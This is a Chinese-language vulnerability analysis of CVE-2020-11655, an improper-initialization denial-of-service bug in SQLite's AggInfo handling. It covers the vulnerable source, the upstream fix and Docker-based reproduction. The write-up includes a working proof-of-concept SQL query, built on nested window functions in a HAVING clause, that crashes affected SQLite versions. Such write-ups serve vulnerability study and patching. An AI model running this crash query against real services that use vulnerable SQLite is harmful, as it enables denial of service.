


# CVE-2020-11655 CWE-665 SQLite DoS

## 漏洞背景

- **SQLite：** 一个轻量级的、嵌入式的关系型数据库管理系统，它不需要单独的服务器进程，也不需要复杂的配置。SQLite 直接在文件系统上存储数据，具有零配置、易于使用和适合小型应用的特点。它支持标准的 SQL 语句，提供良好的数据安全性，并且因其轻量级特性被广泛应用于桌面和移动应用开发中。

- **CWE-665**：不当初始化（Improper Initialization）是指软件未能正确初始化资源，或在使用前未对资源进行初始化，导致资源在访问或使用时处于不可预期的状态。这种缺陷可能引发安全问题，尤其是在资源被期望具有特定属性或值的情况下，例如用于认证状态的变量。不当初始化可能导致程序崩溃、权限绕过或信息泄露等严重后果。

## 漏洞原理

SQLite 3.31.1 及之前版本中存在安全漏洞，该漏洞源于程序没有正确处理 AggInfo 对象初始化。攻击者可利用该漏洞导致拒绝服务。

**CWE-665：不当初始化 --> 未进行错误检查 --> 访问未初始化资源 --> DoS**

## 漏洞定位

分析 SQLite 3.31.1 源码

1、在 src\sqliteInt.h 文件，第 2477 行的 `AggInfo` 结构体是 SQLite 内部管理聚合查询的关键数据结构。它提供了聚合函数和列的相关信息，帮助 SQLite 正确地执行聚合操作，并确保结果的准确性。当解析窗口函数（`OVER()`）时，SQLite 会创建 `AggInfo` 结构来记录聚合函数和聚合列所使用的寄存器区间。

```c
struct AggInfo {
  u8 directMode;       /* 是否直接从表读取数据 */
  u8 useSortingIdx;    /* 直接模式下是否用排序索引 */
  int sortingIdx;      /* 排序索引的游标号 */
  int sortingIdxPTab;  /* 伪表游标号 */
  int nSortingColumn;  /* 排序索引列数 */
  int mnReg, mxReg;    /* 为 aCol 与 aFunc 分配的寄存器区间 [mnReg..mxReg] */
  ExprList *pGroupBy;  /* GROUP BY 子句 */
  struct AggInfo_col {
    Table *pTab;       /* 源表指针 */
    int iTable;        /* 源表游标号 */
    int iColumn;       /* 列号 */
    int iSorterColumn; /* 排序索引中的列号 */
    int iMem;          /* accumulator 使用的寄存器号 */
    Expr *pExpr;       /* 原始表达式 */
  } *aCol;             /* 所有参与聚合列的描述 */
  int nColumn;         /* aCol 数目 */
  int nAccumulator;    /* 可输出列数（其余仅作参数用途） */
  struct AggInfo_func {
    Expr *pExpr;       /* 聚合函数表达式节点 */
    FuncDef *pFunc;    /* 聚合函数实现 */
    int iMem;          /* accumulator 使用的寄存器号 */
    int iDistinct;     /* 若含 DISTINCT，则为去重临时表游标 */
  } *aFunc;            /* 所有聚合函数的描述 */
  int nFunc;           /* aFunc 数目 */
};
```

2、在 src\select.c 文件，第 5349 行`resetAccumulator`函数在每个新分组开始时，重置聚合累加器的初始值，确保每个分组的聚合计算独立进行。在嵌套查询和 `HAVING` 子句中，确保子查询的结果不会影响其他分组的聚合计算。执行阶段，SQLite 会调用此函数将所有累加器寄存器清零／置 NULL，然后为每个聚合函数初始化去重索引。若 `AggInfo` 初始化不完整（`nReg` 与 `mnReg`/`mxReg` 区间不匹配），该函数会**忽略 `pParse->nErr`**，在解析出错又未报错的场景下继续访问不完整 `AggInfo`，会在 `assert` 或 `OP_Null` 访问非法寄存器，导致段错误。

```c
static void resetAccumulator(Parse *pParse, AggInfo *pAggInfo){
  Vdbe *v = pParse->pVdbe;
  int i;
  struct AggInfo_func *pFunc;
  int nReg = pAggInfo->nFunc + pAggInfo->nColumn;
  if( nReg==0 ) return;
#ifdef SQLITE_DEBUG
  /* Verify that all AggInfo registers are within the range specified by
  ** AggInfo.mnReg..AggInfo.mxReg */
  assert( nReg==pAggInfo->mxReg-pAggInfo->mnReg+1 );
  for(i=0; i<pAggInfo->nColumn; i++){
    assert( pAggInfo->aCol[i].iMem>=pAggInfo->mnReg
         && pAggInfo->aCol[i].iMem<=pAggInfo->mxReg );
  }
  for(i=0; i<pAggInfo->nFunc; i++){
    assert( pAggInfo->aFunc[i].iMem>=pAggInfo->mnReg
         && pAggInfo->aFunc[i].iMem<=pAggInfo->mxReg );
  }
#endif
  sqlite3VdbeAddOp3(v, OP_Null, 0, pAggInfo->mnReg, pAggInfo->mxReg);
  for(pFunc=pAggInfo->aFunc, i=0; i<pAggInfo->nFunc; i++, pFunc++){
    if( pFunc->iDistinct>=0 ){
      Expr *pE = pFunc->pExpr;
      assert( !ExprHasProperty(pE, EP_xIsSelect) );
      if( pE->x.pList==0 || pE->x.pList->nExpr!=1 ){
        sqlite3ErrorMsg(pParse, "DISTINCT aggregates must have exactly one "
           "argument");
        pFunc->iDistinct = -1;
      }else{
        KeyInfo *pKeyInfo = sqlite3KeyInfoFromExprList(pParse, pE->x.pList,0,0);
        sqlite3VdbeAddOp4(v, OP_OpenEphemeral, pFunc->iDistinct, 0, 0,
                          (char*)pKeyInfo, P4_KEYINFO);
      }
    }
  }
}
```


## 漏洞修复


在那个  `resetAccumulator()`  函数在  `select.c` ,增加了以下内容：

```c
if( nReg==0 ) return;
if( pParse->nErr ) return;
```

这样,当任何错误发生时( `pParse->nErr>0` )发生在解析阶段,它直接返回,跳过后续访问  `AggInfo` ,完全避免使用后空闲或分区错误

## 影响版本


3.25.0 ≤ SQLite ≤ 3.31.1

## 环境搭建

启动 Docker 环境，SQLite 版本为 3.31.1



## 漏洞复现

1、进入容器命令行，新建数据库`teste-db`

```bash
docker exec -it sqlite-3.31.1 bash
sqlite3 test_db
```

2、创建包含`b`、`c`两列的表 `a`

```sql
CREATE TABLE a(b, c);
```

3、从表 `a` 中选取列 `c` 的值，按照列 `c` 的不同取值将行分组。在 `GROUP BY` 之后，使用`having`语句，对每个分组再进行过滤。

- `sum(b) OVER(ORDER BY b)`：这是一个窗口函数，计算 “b” 列的累积和。它会对表中的行按照 “b” 列的值进行排序，然后从第一行开始累加 “b” 列的值，直到当前行。
- `sum(b) OVER(PARTITION BY min(DISTINCT c), c ORDER BY b)`：同样是一个函数窗口，先按照 `min(DISTINCT c)` 和 “c” 列的值对数据进行分区，再在每个分区内按照 “b” 列的值排序，最后计算每个分区内 “b” 列值的累积和。故意嵌套了聚合， `OVER()` 子句中嵌入 `min(DISTINCT c)`，造成语义分析错误。

执行后可以看到 SQLite 崩溃。

```sql
SELECT c FROM a GROUP BY c
    HAVING(SELECT(sum(b) OVER(ORDER BY b),
                  sum(b) OVER(PARTITION BY min(DISTINCT c), c ORDER BY b)));
```



## PoC分析

```sql
SELECT c FROM a GROUP BY c
    HAVING(SELECT(sum(b) OVER(ORDER BY b),
                  sum(b) OVER(PARTITION BY min(DISTINCT c), c ORDER BY b)));
```

该 HAVING 子句存在语法错误，因为 HAVING 子句通常用于筛选满足特定条件的分组，其后应跟一个条件表达式。在解析第二个 `OVER(… PARTITION BY min(DISTINCT c) …)` 时会调用 `sqlite3WindowRewrite()` 将窗口定义加入内部结构，但 SQLite 并不遍历该子句中的表达式来捕获 `min(DISTINCT c)` 这一聚合调用，因此它并未被添加到 `AggInfo.aFunc[]` 或 `aCol[]` 中，导致内层子查询 `AggInfo` 初始化缺失该聚合项。执行到 `resetAccumulator()` 时，断言或寄存器访问越界，引发段错误。

## 参考链接


[ NVD - CVE-2020-11655 ](https://nvd.nist.gov/vuln/detail/CVE-2020-11655)

[ SQLite: View ticket --- SQLite: View ticket ](https://www.sqlite.org/src/info/af4556bb5c285c08)

[SQLite: Check-in [4a302b42c7\]](https://www.sqlite.org/src/info/4a302b42c7bf5e11)

